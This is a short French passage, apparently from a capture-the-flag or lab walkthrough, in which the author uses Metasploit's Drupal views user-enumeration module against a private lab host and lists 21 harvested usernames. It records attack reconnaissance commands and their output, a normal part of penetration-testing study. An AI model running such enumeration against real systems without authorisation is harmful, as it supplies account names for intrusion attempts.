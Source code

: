 Vidi
----

Je suis passé sous *Metasploit* pour m'intéresser au *Drupal* installé à la racine.  

```plain
msf> use auxiliary/scanner/http/drupal_views_user_enum
msf auxiliary(drupal_views_user_enum) > show options

Module options (auxiliary/scanner/http/drupal_views_user_enum):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PATH     /                yes       Drupal Path
   Proxies                   no        Use a proxy chain
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    80               yes       The target port
   THREADS  1                yes       The number of concurrent threads
   VHOST                     no        HTTP server virtual host

msf auxiliary(drupal_views_user_enum) > set RHOSTS 192.168.1.60
RHOSTS => 192.168.1.60
msf auxiliary(drupal_views_user_enum) > exploit

[*] Begin enumerating users at 192.168.1.60
[*] Done. 21 usernames found...
[+] Found User: Anonymous
[+] Found User: admin
[+] Found User: Barbara
[+] Found User: Dan
[+] Found User: Gene
[+] Found User: George
[+] Found User: Harvey
[+] Found User: Jeff
[+] Found User: Jerome
[+] Found User: Jim
[+] Found User: John
[+] Found User: Johnathan
[+] Found User: Juan
[+] Found User: Michael
[+] Found User: Sally
[+] Found User: Sherry
[+] Found User: Stacey
[+] Found User: Steve
[+] Found User: Susan
[+] Found User: Tom
[+] Found User: Xavier
[*] Usernames stored in: /root/.msf4/loot/20140717193155_default_192.168.1.60_drupal_user_101878.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
